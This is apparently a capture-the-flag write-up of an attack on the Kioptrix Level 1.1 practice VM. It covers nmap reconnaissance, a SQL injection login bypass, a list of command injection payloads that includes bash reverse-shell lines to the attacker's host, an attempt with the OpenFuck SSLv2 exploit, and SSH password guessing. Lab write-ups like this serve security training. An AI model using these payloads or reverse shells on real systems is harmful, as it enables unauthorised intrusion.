






Kioptrix Level 1.1 (#2)
This is the story of how I threw everything at a 15-year-old box and it fought back. SQL injection, broken HTML, command injection, SSLv2 exploits, SSH brute force — this box said "not today, my friend." But the journey was legendary.
📡 Phase 1: Reconnaissance
Initial Nmap scan identified the target on the host-only network:
nmap 192.168.56.0/24
Figure 1: Target discovered at 192.168.56.112 with ports 22, 80, 443, 3306.
Detailed service scan revealed:
nmap -sC -sV 192.168.56.112
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
80/tcp open http Apache httpd 2.0.52 ((CentOS))
443/tcp open ssl/https? SSLv2 supported with export ciphers
3306/tcp open mysql MySQL (unauthorized - localhost only)🔓 Phase 2: SQL Injection - Authentication Bypass
The login page at /index.php was vulnerable to SQL injection.
Username: admin'/*
Password: admin'/*Successful login redirected to /pingit.php (Administrative Web Console).

Figure 2: Admin login bypassed with 'admin'/*'
🔧 Phase 3: The Broken HTML Form
The pingit.php page rendered without an input field or submit button. Source code analysis revealed an unclosed <center> tag breaking the DOM.

Figure 3: Ping page with missing input field.
Using Firefox DevTools, the HTML was edited live to inject:
<input type="text" name="ip" size="20">
<input type="submit" value="Ping">
Figure 4: HTML fixed via DevTools - Ping button now visible.
💣 Phase 4: The Great Command Injection Saga
Multiple payloads were tested via the ping form and curl:
Payloads Tested (All Failed)
# Semicolon
127.0.0.1; whoami
;bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
# Pipe
127.0.0.1 | whoami
| bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
# URL Encoded
127.0.0.1%3Bwhoami
127.0.0.1%7Cwhoami
# Backticks and Subshell
`whoami`
$(whoami)
# The Kitchen Sink
;id; ;whoami; ;ls -la; ;pwd;

Figure 5: Multiple curl attempts - no command execution detected.
🔐 Phase 5: The SSLv2 Nightmare
SSLv2 was confirmed with export ciphers. Time for OpenFuck!
# OpenFuck compilation attempt
gcc -o openluck OpenFuck.c -lcrypto -lssl -ldl
# 274 deprecated warnings later...
# The final attempt
./openluck 0x6a 192.168.56.112 443 -c 45
get server verify: Malformed packet size AGAIN AND AGAIN AND AGAIN
Figure 6: OpenSSL 3.0 said "not today" to our 15-year-old exploit.
🔑 Phase 6: The SSH Time Machine
OpenSSH 3.9p1 required ancient crypto. Time to break out the old protocols:
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa root@192.168.56.112
# The response:
Connection closed by 192.168.56.112 port 22
# We found the user "test" exists!
# But no password worked - not test, password, toor, admin, or 123456Figure 7: We got past the handshake but never got in.
🏆 The Final Verdict
🎯 What We Actually Did
- SQL Injection — Admin bypass with
admin'/* - HTML Repair — Fixed broken DOM in DevTools
- Command Injection — Tested every separator known to man
- SSLv2 Exploitation — OpenFuck compiled but failed due to OpenSSL 3.0
- SSH Enumeration — Confirmed user "test" exists, but password unknown
- Samba Enumeration — Ports 139/445 were closed (Samba not running)